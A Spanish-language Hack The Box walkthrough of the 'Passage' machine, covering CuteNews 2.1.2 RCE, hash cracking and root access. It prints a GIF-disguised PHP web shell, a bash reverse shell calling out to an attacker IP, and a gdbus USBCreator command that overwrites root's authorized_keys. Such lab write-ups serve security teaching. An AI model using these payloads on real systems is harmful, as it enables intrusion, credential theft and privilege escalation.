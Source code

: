 ```yaml
---
layout: single
title: Passage - Hack The Box
excerpt: "Para resolver ésta máquina nos aprovechamos qué la versión 2.1.2 del CuteNews es vulnerable a un RCE mediante una subida de archivo malicioso PHP, logrando así una Reverse Shell, para posterior a ello crackear un Hash encontrado en el código fuente, logrando así reusar la contraseña para un usuario válido del sistema, ya siendo éste usuario nos aprovechamos que tiene autorización SSH para conctarse como otro usuario del sistema, y ya como éste último usuario explotamos la vulnerabilidad del USB-Creator qué permite sobre-escribir cualquier archivo incluso sin tener permisos, para sobre-escribir la authorized_keys de Root, logrando así acceso sin proporcionar credenciales."
date: 2023-12-01
classes: wide
header:
  teaser: /assets/images/htb-writeup-passage/passage_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - CuteNews Exploitation > RCE
  - hash cracking
  - password reuse
  - USBCreator D-Bus Privilege Escalation
  - abuse USBCreator to overwritten authorized_keys
---
```

![](/assets/images/htb-writeup-passage/passage_logo.png)

Para resolver ésta máquina nos aprovechamos qué la versión 2.1.2 del CuteNews es vulnerable a un RCE mediante una subida de archivo malicioso PHP, logrando así una Reverse Shell, para posterior a ello crackear un Hash encontrado en el código fuente, logrando así reusar la contraseña para un usuario válido del sistema, ya siendo éste usuario nos aprovechamos que tiene autorización SSH para conctarse como otro usuario del sistema, y ya como éste último usuario explotamos la vulnerabilidad del USB-Creator qué permite sobre-escribir cualquier archivo incluso sin tener permisos, para sobre-escribir la authorized_keys de Root, logrando acceso sin proporcionar credenciales.

# PortScan
____

```
 # Nmap 7.93 scan initiated Fri Dec  1 10:05:34 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.10.206
 Nmap scan report for 10.10.10.206
 Host is up (0.056s latency).
 
 PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
 | ssh-hostkey: 
 |   2048 17eb9e23ea23b6b1bcc64fdb98d3d4a1 (RSA)
 |   256 71645150c37f184703983e5eb81019fc (ECDSA)
 |_  256 fd562af8d060a7f1a0a147a438d6a8a1 (ED25519)
 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
 |_http-title: Passage News
 |_http-server-header: Apache/2.4.18 (Ubuntu)
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Fri Dec  1 10:05:43 2023 -- 1 IP address (1 host up) scanned in 8.94 seconds
```


# WebSite
____
![](/assets/images/htb-writeup-passage/Pasted image 20231201114320.png)

Parece un sitio de noticias, así que opto por ver el código fuente, notando qué está corriendo un "**CuteNews**", que indagando un poco en internet es un gestor de noticias.
![](/assets/images/htb-writeup-passage/Pasted image 20231201114800.png)


Pruebo ir a esa redirección, pero sin sin ir al recurso "**rss.php**", descubriendo así el panel de autenticación.

![](/assets/images/htb-writeup-passage/Pasted image 20231201114925.png)

Logrando así ver la versión del "**CuteNews**", así que sabiendo la versión se me ocurre buscar posibilidades en internet...

Encontrándome así que esta versión es vulnerable a un **RCE** mediante la subida de un archivo malicioso **PHP** al avatar, usando los primeros **magick numbers** de un **GIF** para saltar la "**medida de seguridad**" de que se suban archivos maliciosos.

**PoC** de un script en python para hacerlo automatizado tan sólo indicando la URL [CuteNews 2.1.2 Remote Code Execution](https://packetstormsecurity.com/files/159134/CuteNews-2.1.2-Remote-Code-Execution.html)


En éste caso, estaré haciéndolo manual ya qué conozco como el script funciona & hace esta subida de archivo malicioso...

1. Creamos el archivo malicioso con extensión **.php** que subiremos como "avatar":
```php
GIF8;
<?php system($_GET['cmd']); ?>
```


2. Nos registramos en el "**CuteNews**", para irnos a la "**opciones personales**".

![](/assets/images/htb-writeup-passage/Pasted image 20231201115631.png)

3. Posterior a ello subimos en el avatar el archivo malicioso **php**, logrando evaditar la "medida de seguridad" para no subir código php.

4. Vamos al directorio de subidas de archivos, logrando ver el avatar que hemos subido.
![](/assets/images/htb-writeup-passage/Pasted image 20231201115917.png)

![](/assets/images/htb-writeup-passage/Pasted image 20231201115957.png)

Logrando así como vemos arriba llevar a cabo el **RCE** exitosamente,  así que procedo a entablarme una **Reverse Shell**.


1. Nos ponemos en escucha con **Netcat**.
```bash
nc -nlvp PORT
```

2. Nos mandamos la **Reverse Shell** desde la máquina por la URL.
```bash
bash -c 'bash -i >%26/dev/tcp/10.10.x.x/PORT 0>%261'
```

![](/assets/images/htb-writeup-passage/Pasted image 20231201120446.png)

Ya tan sólo quedaría darle Tratamiento TTY, sino sabes como [((LEE ESTE POST))](https://4uli.github.io/tratamiento-tty/)


# Escalada de Privilegios #1 
___

Lo primero qué hago, es ver cuales son los usuarios con directorios personales.
```bash
ls -la /home/
```
![](/assets/images/htb-writeup-passage/Pasted image 20231201120824.png)

Descubriendo qué existen dos usuarios con directorios, "**nadav**" & "**paul**", y a los cuales nisiquiera podemos entrar a sus directorios, así que empiezo buscando en el código fuente del servicio web **CuteNews**.

Descubriendo así en el directorio "/**cdata**" un subdirectorio interesante con nombre "**/users**", el cual contiene información de los usuarios en **base64**.
hallando allí un recurso llamado "lines", el cual contiene multiples cadenas en base64 aparentemente con información de todos los usuarios...
![](/assets/images/htb-writeup-passage/Pasted image 20231201121158.png)

Al ser varias cadenas, hago una iteración rápida para desconvertir de base64 cada linea del archivo "**lines**".
```bash
cat lines | grep -v php | while read line; do echo $line | base64 -d;echo; done
```

Logrando así ver información de los usuarios en texto claro.
![](/assets/images/htb-writeup-passage/Pasted image 20231201121424.png)

Excepto la contraseña, lo qué aparentemente está **hasheada**, en éste caso me interesaría **crackear** la qué es del usuario **Paul**, a ver sí se está reusando esa contraseña del "**CuteNews**" en el usuario válido del sistema.

copio el **hash**, y utilizo el recurso web para crackear [hashes.com](https://hashes.com/en/decrypt/hash), logrando así crackear la contraseña.
![](/assets/images/htb-writeup-passage/Pasted image 20231201121647.png)

y pruebo a reutilizarla como "**paul**"
![](/assets/images/htb-writeup-passage/Pasted image 20231201121712.png)

Ha funcionado, y hemos ingresado como Paul.

# Escalada de Privilegios #2 
___

Indagando en el directorio personal de "**paul**", descubrí que en el directorio **SSH** tiene como claves autorizadas la de **nadav** así que podríamos ingresar a éste usuario sin proporcionar contraseña.

![](/assets/images/htb-writeup-passage/Pasted image 20231201121842.png)

# Escalada de Privilegios #3 
___

Siendo "**nadav**", entro a su directorio personal, descubriendo qué está un "**.viminfo**" y procedo a ver qué contiene.
![](/assets/images/htb-writeup-passage/Pasted image 20231201122046.png)

Como vemos en el historial de **vim**  existe un **USBCreator** en la máquina.

Indago en internet en busca de posibles vulnerabilidades para escalar privilegios con ésto, encontrando así la vulnerabilidad **CVE-2015-3643**, la cual de forma resumida consiste en qué podemos **sobre-escribir** cualquier archivo existente aunque no tengamos permisos, así que se me ocurre sobre-escribir el "**authorized_keys**" de **Root** para ganar acceso mediante **SSH** sin proporcionar credenciales.

1. Creamos una copia de la clave pública de "**nadav**" en el directorio de la misma.
```bash
cp authorized_keys ~/authorized_keys
```

2. Sobre-escribimos la clave autorizada de Root, para poder acceder como "nadav" sin proporcionar credenciales.
```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/authorized_keys root/.ssh/authorized_keys true
```

![](/assets/images/htb-writeup-passage/Pasted image 20231201124305.png)

Logrando así ganar acceso como Root.
